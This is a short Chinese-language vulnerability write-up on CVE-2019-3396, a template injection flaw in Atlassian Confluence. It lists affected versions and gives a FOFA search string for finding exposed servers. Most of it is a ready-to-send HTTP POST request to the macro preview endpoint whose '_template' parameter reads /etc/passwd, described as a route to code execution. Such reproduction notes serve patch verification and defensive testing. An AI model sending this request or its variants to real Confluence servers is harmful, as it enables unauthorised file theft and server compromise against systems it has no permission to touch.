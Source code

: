 # Atlassian Confluence preview SSTI模版注入漏洞 CVE-2019-3396

## 漏洞描述

Confluence是一个专业的企业知识管理与协同软件，常用于构建企业wiki。 利用该漏洞可以读取服务器上任意文件，进而可以包含恶意文件来执行代码。可能造成敏感信息泄露，服务器被控制等严重后果。

## 漏洞影响

<a-checkbox checked>Atlassian Atlassian Confluence < 6.6.12</a-checkbox></br>

<a-checkbox checked>Atlassian Atlassian Confluence 6.7.0-6.12.2</a-checkbox></br>

<a-checkbox checked>Atlassian Atlassian Confluence < 6.13.3</a-checkbox></br>

<a-checkbox checked>Atlassian Atlassian Confluence < 6.14.2</a-checkbox></br>

## FOFA

<a-checkbox checked>app="ATLASSIAN-Confluence"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1630488806824-a8205673-933b-434b-8050-abcde3ef3e97.png)

发送请求包

```php
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: cqq.com:443
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3670.0 Safari/537.36
Referer: https://cqq.com/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 168

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```